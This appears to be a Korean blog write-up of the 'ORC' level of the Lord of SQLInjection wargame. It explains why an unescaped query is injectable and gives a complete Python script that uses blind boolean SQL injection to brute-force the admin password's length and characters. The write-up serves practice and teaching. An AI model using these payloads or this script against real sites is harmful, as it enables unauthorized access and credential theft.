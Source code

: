 ```yaml
---
title: "Lord of SQLInjection - ORC"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# ORC
## 문제
![img](/assets/images/los/orc1.png)
- 첫번째 쿼리를 보면 admin 계정에 입력한 pw로 조회한다.
- 두번째 쿼리를 보면 입력한 pw에 addslashes 함수를 통해 ', ", \, NUL 문자에 백슬래시를 추가하여 조회한다.
- 첫번째 쿼리는 이스케이프가 안된 상태로 쿼리하기 때문에 해당 부분을 통하여 admin의 패스워드를 추출할 수 있다.

## 정답
![img](/assets/images/los/orc2.png)
- python을 통해 password의 길이를 구한 후 문자를 비교하여 풀 수 있다.

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

cookie = {'PHPSESSID' : 'cookie의 세션 아이디 입력'}

pass_len = 0

for length in range(1,30):
    query = "?pw=' or id='admin' and %d=length(pw)%%23" %length
    URL = url+query

    r = requests.get(url=URL, cookies=cookie)

    if 'Hello admin' in str(r.content):
        pass_len = length
        break

    else:
        print(str(length) + "--- X")
		

print("password length : %d" %pass_len)
password=''

for i in range(1, pass_len+1):
    for j in range(38, 127):
        query = "?pw=' or id='admin' and ord(substr(pw,%d,1))='%d'%%23" %(i, j)
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello admin' in str(r.content):
            password += chr(j)
            break

print ('passowrd :  %s' %password)
```
